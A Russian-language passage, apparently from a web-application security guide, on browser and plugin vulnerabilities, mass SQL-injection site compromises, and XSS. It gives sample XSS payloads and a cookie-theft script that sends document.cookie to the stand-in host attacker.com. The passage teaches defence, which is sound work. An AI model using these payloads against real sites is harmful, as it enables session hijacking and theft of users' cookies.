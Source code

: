 Во второй половине 2007 года выявлено 88 уязвимостей в браузерах Mozilla, 22 в Safari, 18 в IE и 12 в Opera. [Symantec Global Internet Security threat report](http://eval.symantec.com/mktginfo/enterprise/white_papers/b-whitepaper_internet_security_threat_report_xiii_04-2008.en-us.pdf) также задокументировал 239 уязвимостей плагинов для браузеров в последние шесть месяцев 2007 года. [Mpack](http://pandalabs.pandasecurity.com/archive/MPack-uncovered_2100_.aspx) очень активный и регулярно обновляемый фреймворк злоумышленников, который использует эти уязвимости. Для преступных хакеров очень привлекательно использовать уязвимость к SQL-инъекциям в фреймворке веб приложения и вставлять вредоносный код в каждый текстовый столбец таблицы. В апреле 2008 года более 510,000 сайтов были взломаны подобным образом, в том числе Британского правительства, ООН и многих других высокопоставленных организаций.

Относительно новыми и необычными точками входа является баннерная реклама. В начале 2008 года злонамеренный код появился в рекламных баннерах на популярных сайтах, таких как MySpace и Excite, сообщает [Trend Micro](http://blog.trendmicro.com/myspace-excite-and-blick-serve-up-malicious-banner-ads/).

#### HTML/JavaScript инъекции

Наиболее распространенным языком для XSS является, конечно, наиболее популярный клиентский скриптовый язык JavaScript, часто в сочетании с HTML. _Экранирование пользовательского ввода необходима_.

Вот самый простой тест для проверки на XSS:

```html
<script>alert('Hello');</script>
```

Этот код JavaScript просто отображает сообщение. Следующие примеры делают примерно то же самое,но в очень необычных местах:

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Похищение куки

Пока эти примеры не делали никакого вреда, поэтому давайте посмотрим, как злоумышленник может похитить куки пользователя (и, таким образом, похитить пользовательскую сессию). В JavaScript можно использовать свойство document.cookie для чтения и записи куки документа. JavaScript обеспечивает политику ограничения домена, которая означает, что скрипт с одного домена не может получить доступ к куки другого домена. Свойство document.cookie содержит куки создавшего веб сервера. Однако это свойство можно прочитать и записать, если внедрите код непосредственно в документ HTML (как это происходит в XSS). Введите это где-нибудь в своем веб приложении, чтобы увидеть собственные куки на результирующей странице:

```
<script>document.write(document.cookie);</script>
```

Для злоумышленника, разумеется, бесполезно, что жертва видит свои куки. Следующий пример пытается загрузить изображение с URL http://www.attacker.com/ плюс куки. Конечно, этот URL не существует, поэтому браузер ничего не отобразит. Но злоумышленник сможет просмотреть логи доступа к своему веб серверу, чтобы увидеть куки жертв.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```
